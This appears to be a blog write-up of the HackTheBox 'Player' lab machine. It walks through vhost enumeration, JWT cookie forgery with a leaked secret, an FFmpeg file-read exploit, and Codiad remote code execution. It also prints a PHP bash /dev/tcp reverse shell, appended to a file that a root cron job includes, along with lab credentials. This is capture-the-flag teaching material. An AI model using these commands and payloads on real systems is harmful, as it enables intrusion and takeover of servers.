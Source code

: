 ```yaml
---
title: "HackTheBox - WriteUp 16"
date: 2019-07-17T21:06:35+08:00
description: "HackTheBox 练手 - Player - Code Review with FFMPEG Vuln"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Player

Nmap enum 22(SSH 6.6.1p1), 80(Apache Web 2.4.7 With PHP 5.5.9), 6686(SSH 7.2p1)

## User

First, access 80, get 403. We need enum vhost.

Use gobuster here: `gobuster vhost -r -u http://player.htb -o /tmp/player1.log -w ./subdomains-top1mil-20000.txt -s 200`, Found: `dev` `staging` `chat`

Add the following lines into `/etc/hosts`:

```
10.10.10.145 dev.player.htb
10.10.10.145 staging.player.htb
10.10.10.145 chat.player.htb
10.10.10.145 player.htb
```

Check `chat`, you'll know there's application backup file disclosure and credentials leak in other places.

Then enum dir `gobuster dir -u http://staging.player.htb -s 200,204,301,302,307 -o /tmp/dirbplayer.log -w ./directory-list-2.3-medium.txt -x html,php,htm,txt`, nothing special.

Then enum dir `gobuster dir -u http://player.htb -s 200,204,301,302,307 -o /tmp/dirbplayer_main.log -w ./directory-list-2.3-medium.txt -x html,php,htm,txt`, found `/launcher`.

After that, go to Staging, Check all pages, found a contact form, submit anything, you'll see a error page flashing... Then, enable burpsuite, catch the local file disclosure:

```php
array(3) { 
    [0]=> array(4) { 
        ["file"]=> string(28) "/var/www/staging/contact.php" 
        ["line"]=> int(6) 
        ["function"]=> string(1) "c" 
        ["args"]=> array(1) { 
            [0]=> &string(9) "Cleveland" } 
        } 
    [1]=> array(4) { 
        ["file"]=> string(28) "/var/www/staging/contact.php" 
        ["line"]=> int(3) 
        ["function"]=> string(1) "b" 
        ["args"]=> array(1) { 
            [0]=> &string(5) "Glenn" } 
        } 
    [2]=> array(4) { 
        ["file"]=> string(28) "/var/www/staging/contact.php" 
        ["line"]=> int(11) 
        ["function"]=> string(1) "a" 
        ["args"]=> array(1) { 
            [0]=> &string(5) "Peter" } 
        } 
    } 
Database connection failed.
Unknown variable user in /var/www/backup/service_config fatal error in /var/www/staging/fix.php
```
Check the source code of Dev, app.js showed Codiad WebIDE, 0-Day RCE can be found here: https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit

Then check `player.htb/launcher` source code, you'll get a php named in a strange way. Check about backup file, found: `http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.php~`, It's about JSON Web Token, according to its code, The JWT Token can be build as is:

- Algorithm: HS256
- Type: JWT
- Base64Encoded Secret: /S0/R@nd0m/P@ss/
- Correct Payload:  `{"project": "PlayBuff","access_code":"0E76658526655756207688271159624026011393"}`

So, Use the above param, you get the cookie: `access = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwcm9qZWN0IjoiUGxheUJ1ZmYiLCJhY2Nlc3NfY29kZSI6IjBFNzY2NTg1MjY2NTU3NTYyMDc2ODgyNzExNTk2MjQwMjYwMTEzOTMifQ.GgZP6ZYiWPFtzyHxGVn6Cl_PFkt0UpBe8cTyTF13ot4`

Clear all your current cookies, then set cookie above, open `http://player.htb/launcher/`, input anything into the form, then submit. You'll be redirected to: `http://player.htb/launcher/7F2dcsSdZo6nj3SNMTQ1/`, You'll see a Secure Video Page. Mostly, video convert use FFMpeg, so let's search, found this: `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS`

Run exploit with: `python3 ./gen_avi_bypass.py file:///var/www/backup/service_config backup_servc.avi` to read the file we just get from error message. Get output downloaded. You will found a cred: `telegen:d-bC|jC!2uepS/w`.

Try to logged in via SSH, get limited shell and cannot escape. Next, try `https://www.exploit-db.com/exploits/39569` , after you get xauth shell, run `.readfile /var/www/staging/fix.php`, you will get another creds: `peter:CQXpm\z)G5D#%S$y=`

Logged into dev site, you found no plugin manager, so you can't upload anything. Try `https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit`, with `python2 ./exploit.py http://dev.player.htb/ peter "CQXpm\\z)G5D#%S\$y=" 10.10.16.80 4499 linux`, you'll get a reverse shell as `www-data`.

Use Python 3 to spawn a pty, `python3 -c "import pty; pty.spawn('/bin/bash')"`, then `su -s /bin/bash telegen`, use the creds above, you can access the user flag.

## Root

Run `pspy64`, then upload a php file:

```php
<?php 
shell_exec("bash -c 'bash -i &>/dev/tcp/10.10.16.80/23032 0<&1'"); 
?>
```

According to pspy, cron run a PHP per minute, which located at: `/var/lib/playbuff/buff.php`

```php
<?php
include("/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php");
class playBuff
{
        public $logFile="/var/log/playbuff/logs.txt";
        public $logData="Updated";

        public function __wakeup()
        {
                file_put_contents(__DIR__."/".$this->logFile,$this->logData);
        }
}
$buff = new playBuff();
$serialbuff = serialize($buff);
$data = file_get_contents("/var/lib/playbuff/merge.log");
if(unserialize($data))
{
        $update = file_get_contents("/var/lib/playbuff/logs.txt");
        $query = mysqli_query($conn, "update stats set status='$update' where id=1");
        if($query)
        {
                echo 'Update Success with serialized logs!';
        }
}
else
{
        file_put_contents("/var/lib/playbuff/merge.log","no issues yet");
        $update = file_get_contents("/var/lib/playbuff/logs.txt");
        $query = mysqli_query($conn, "update stats set status='$update' where id=1");
        if($query)
        {
                echo 'Update Success!';
        }
}
?>
```

The file content of `/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php`:

```php
<?php
$servername = "localhost";
$username = "root";
$password = "";
$dbname = "integrity";

// Create connection
$conn = new mysqli($servername, $username, $password, $dbname);
// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
?>
```

Included PHP will be executed, so just append the shell you just uploaded to `dee8dc8a47256c64630d803a4c40786g.php`: `cat shell.php >> dee8dc8a47256c64630d803a4c40786g.php`.

Then open an nc before you append, you will get a root shell.

(END)

# Referrence

- https://www.exploit-db.com/exploits/39569
- https://www.rapid7.com/db/vulnerabilities/http-php-temporary-file-source-disclosure
- https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit
- https://jwt.io
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
- https://github.com/firebase/php-jwt
- https://stackoverflow.com/questions/12823770/does-php-code-execute-when-included

# Further Reading: Improvement

- https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/
- https://www.notsosecure.com/remote-code-execution-via-php-unserialize/
- https://securitycafe.ro/2015/01/05/understanding-php-object-injection/
- https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-dirty-cow-linux-vulnerability



